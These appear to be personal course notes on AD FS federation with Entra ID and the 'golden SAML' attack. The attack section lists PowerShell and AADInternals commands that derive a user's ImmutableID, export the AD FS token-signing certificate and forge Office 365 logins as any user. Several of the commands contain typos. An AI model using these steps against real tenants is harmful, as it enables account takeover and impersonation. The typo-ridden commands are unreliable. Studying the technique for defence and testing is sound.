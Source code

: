 - For federation a trust needs to be established between unrelated parties like on-prem Active Directory and Entra ID
- All authentication occurs in the on-prem environment and the user experiences SSO across all the trusted environments
- Users can access cloud applications by using their on-prem credentials

![[Pasted image 20241124003330.png]]

In any federation setup there are 3 parties:
- User or Client 
- Identity Provider (IdP)
- Service Provider (SP)

The identity provider authenticates the user and then the user can access a service on the service provider. 

Security Assertion Markup Language (SAML) is used for exchanging all the authentication and authorization information between the providers.
![[Pasted image 20241124003720.png]]

`https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps`

## ADFS
- AD FS is a claims-based identity model
- claims are simply statements made by users that are used primarily for authorizing access to claims-based applications located anywhere on the internet. 
- Claims for a user are written inside the SAML tokens and are then signed to provide integrity by the IdP.
- A user is identified by ImmutableID. It is globally unique and stored in Entra Id
- the ImmutableID is stored on-prem as ms-DC-ConsistencyGuid for the user and/or can be derived from the GUID of the user. 

# Abuse
- In ADFS, SAML Response is signed by a token-signing certificate 
- if the certificate is compromised, it is possible to authenticate to the Entra ID as any user in Entra ID.
- Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
- the certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine 
- this is what the infamous golden SAML attacks is
`https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps`
## On-Prem to Cloud
- from any on-prem machine as a normal domain user, get the ImmutableID of the target user.
`[System.Convert]::ToBase64String((Get-ADUser -Identity onpreuser | select -ExpandProperty ObjectGUID).tobytearray())`
- On AD FS server (as administrator)
` Get-AdfsProperties | select identifier`
- Check the IssuerURI from Entra ID too(use MSOL module and need GA privs)
` Get-MsolDomainFederationSettings -DomainName deffin.com |select IssuerUri`

Note when setting up AD FS using Entra Connect there is a difference between IssuerURI on ADFS server and Entra ID. Use the one from Azure AD.

- with DA privileges on-prem we can extract the ADFS token certificate from the ADFS server using AADInternals
` Export-AADIntADFSSigningCertificate`
- use the below command from AADInternals to access cloud apps as the user whose immutableID is specified
` Open-AADIntOffice365Portal -ImmutableID v1poc7Pz8kaT6JKQ== -Issuer http://deffin.com/adfs/services/trust -Pfx c:\user\asfsadmin\services\trust -PfxFileName c:\users\adfsadmin\Documents\ADFSSignCertifcate.pfx`

With DA privileges on-prem its possible to create ImmutableID of cloud only users with access to Entra Connect Sync credentials
- Create a realistic ImmutableID and set it for a cloud only user
` [System.Convert]::Base64String((New-Guid).tobytearray())`
` Set-AADIntAzureADObject -CloudAnchor "user-594...." -SourceAnchor "pwr...==`
- Using AADInternals export the token signing certificate. 
` Export-AADIntADFSSignCertificate`
- User the belwo command from AADInternals to access cloud apps as the user whose ImmutableID is specified. 
` OpenAADIntOfficae365Portal ImmutableID "pwr..." -Issuer http://deffin.com/adfs/service/trust -PfxFileName c:\users\adfsadmin\Documents\ADFSSignCertifcate.pfx -Verbose`

